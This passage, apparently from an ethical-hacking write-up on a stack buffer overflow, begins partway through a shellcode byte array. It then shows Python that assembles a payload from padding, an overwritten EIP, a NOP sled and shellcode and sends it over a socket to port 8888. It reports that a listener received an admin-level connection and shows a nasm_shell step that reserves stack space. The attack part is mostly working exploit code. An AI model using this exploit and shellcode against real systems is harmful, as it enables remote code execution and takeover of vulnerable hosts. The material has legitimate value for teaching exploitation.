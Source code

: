 `b"\xf4\x2f\xe3\x95\x5e\xa7\x72\xd6\x60\xb1\x7a\x33\x17\x5d"`
`b"\xca\xea\x6e\x62\xe3\x7a\x67\x1b\x19\x1b\x88\xf6\x99\x2b"`
`b"\xc3\x5a\x8b\xa3\x8a\x0f\x89\xa9\x2c\xfa\xce\xd7\xae\x0e"`
`b"\xaf\x23\xae\x7b\xaa\x68\x68\x90\xc6\xe1\x1d\x96\x75\x01"`
`b"\x34")`
`payload = before_eip + eip + nops + shellcode`
`def makeConnection():`

    `s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)`
    `s.connect((ip_address, 8888))`
    `s.send(payload)`


`if __name__=='__main__':`
    `makeConnection()`

Opening  a listener in the port stablished, we've got connection as admin

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240325024004.png)
#### Reserving a memory space

 `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`
`nasm > sub esp, 0x10`
>00000000  83EC10            sub esp,byte +0x10
